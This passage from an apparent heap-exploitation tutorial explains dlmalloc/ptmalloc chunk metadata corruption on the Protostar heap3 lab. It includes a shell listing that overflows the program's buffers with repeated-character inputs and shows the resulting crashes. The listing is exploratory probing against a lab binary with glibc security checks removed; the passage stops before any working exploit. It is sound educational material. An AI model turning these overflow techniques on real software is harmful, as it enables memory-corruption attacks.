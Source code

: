\subsection{Chunk Corruption}
While we are still able to overflow the programmer's variables and
buffers, the new avenue of attack is in the metadata used by the
dlmalloc/ptmalloc algorithm. Various pieces of information - size,
linked list pointers, bitflags - can be overwritten to allow for
dlmalloc/ptmalloc to do unexpected things, such as overwrite 
arbitrary portions of memory. However, this can be fairly 
complicated and involved. Please note that in this example, while
we are still essentially attacking a standard glibc implementation of dlmalloc,
the authors from \texttt{exploit-exercises.com}\footnote{http://www.exploit-exercises.com}
have somewhat simplified it.
This specific program is statically compiled with some slightly modified
glibc code, removing sanity and security checks which would otherwise
make exploitation very difficult. While this makes it easier to illustrate
the point, we lose relevance to modern heap corruption attacks, which are
even more complicated.



Initially, this program doesn't appear to be exploitable. Although
we do have buffer overflows from the 3 \texttt{strcpy()} calls on
lines 20, 21 and 22, none of the programmer's variables are really
important, and it's not even clear if we could overflow all the
way from the heap to the return pointer on the stack. However,
we can overflow the \texttt{size} and \texttt{prev\_size} fields
in two of these three malloc chunks. The trick is in overflowing
them with the right values. For example, consider the following
output from some exploratory overflowing:

\begin{lstlisting}
user@protostar:~/heap/heap3$ /opt/protostar/bin/heap3 `python -c 'print("A"*40)'` fdsa asdf
Segmentation fault
user@protostar:~/heap/heap3$ /opt/protostar/bin/heap3 `python -c 'print("B"*40)'` fdsa asdf
dynamite failed?
user@protostar:~/heap/heap3$ /opt/protostar/bin/heap3 `python -c 'print("C"*40)'` fdsa asdf
dynamite failed?
user@protostar:~/heap/heap3$ /opt/protostar/bin/heap3 `python -c 'print("D"*40)'` fdsa asdf
Segmentation fault
user@protostar:~/heap/heap3$ /opt/protostar/bin/heap3 `python -c 'print("E"*40)'` fdsa asdf
Segmentation fault
user@protostar:~/heap/heap3$ /opt/protostar/bin/heap3 `python -c 'print("F"*40)'` fdsa asdf
dynamite failed?
user@protostar:~/heap/heap3$ /opt/protostar/bin/heap3 `python -c 'print("G"*40)'` fdsa asdf
dynamite failed?
user@protostar:~/heap/heap3$ /opt/protostar/bin/heap3 `python -c 'print("H"*40)'` fdsa asdf
Segmentation fault
\end{lstlisting}

